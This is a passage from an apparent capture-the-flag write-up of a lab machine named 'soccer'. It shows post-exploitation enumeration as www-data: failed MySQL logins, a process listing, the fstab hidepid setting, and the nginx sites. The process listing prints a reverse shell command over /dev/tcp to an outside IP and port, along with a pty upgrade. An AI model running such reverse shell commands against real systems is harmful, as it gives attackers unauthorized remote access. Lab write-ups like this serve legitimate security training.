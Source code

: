 ```bash
Keep-Alive: timeout=5

www-data@soccer:~/html$ mysql -p 3306
Enter password:
ERROR 1045 (28000): Access denied for user 'www-data'@'localhost' (using password: YES)

www-data@soccer:~/html$ mysql -p 33060
Enter password:
ERROR 1045 (28000): Access denied for user 'www-data'@'localhost' (using password: YES)
```

But this doesn’t get me anywhere. I still don’t know what is running on port `9091`, but I see `express`, a NodeJS framework running on port `3000`. And both `3306` and `33060` seem to be MySQL instances. But it’s hard to verify any of this due to some hardening tricks this machine has applied. It turns out the `www-data` user can only read it owned processes.

```bash
www-data@soccer:~/html$ ps auxww
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
www-data    1129  0.0  0.1  54080  6192 ?        S    Jun11   0:05 nginx: worker process
www-data    1130  0.0  0.1  54080  6512 ?        S    Jun11   0:08 nginx: worker process
www-data    6128  0.0  0.0   2608   592 ?        S    06:15   0:00 sh -c bash -c 'bash -i >& /dev/tcp/10.10.14.19/8888 0>&1'
www-data    6129  0.0  0.0   3976  2892 ?        S    06:15   0:00 bash -c bash -i >& /dev/tcp/10.10.14.19/8888 0>&1
www-data    6130  0.0  0.0   4108  3456 ?        S    06:15   0:00 bash -i
www-data    6153  0.0  0.2  15956  9448 ?        S    06:19   0:00 python3 -c import pty; pty.spawn("/bin/bash")
www-data    6155  0.0  0.0   7436  3720 pts/0    Ss   06:19   0:00 /bin/bash
www-data    6494  0.0  0.0   9088  3008 pts/0    R+   06:43   0:00 ps auxww
```

The reason for this is that the `proc` file system is mounted with the `hidepid` option:

```bash
www-data@soccer:~/html$ cat /etc/fstab

LABEL=cloudimg-rootfs   /        ext4   defaults        0 1
#VAGRANT-BEGIN
# The contents below are automatically generated by Vagrant. Do not modify.
data /data vboxsf uid=1000,gid=1000,_netdev 0 0
vagrant /vagrant vboxsf uid=1000,gid=1000,_netdev 0 0
#VAGRANT-END
/dev/sda1 none swap sw 0 0
proc    /proc   proc    defaults,nodev,relatime,hidepid=2
```

### Exploring nginx

Nothing else worth of interest seems to be on the machine, so I decided to take a look at the nginx configuration in `/etc/nginx/site-enabled`

```bash
www-data@soccer:/etc/nginx/sites-enabled$ ls
default  soc-player.htb
```
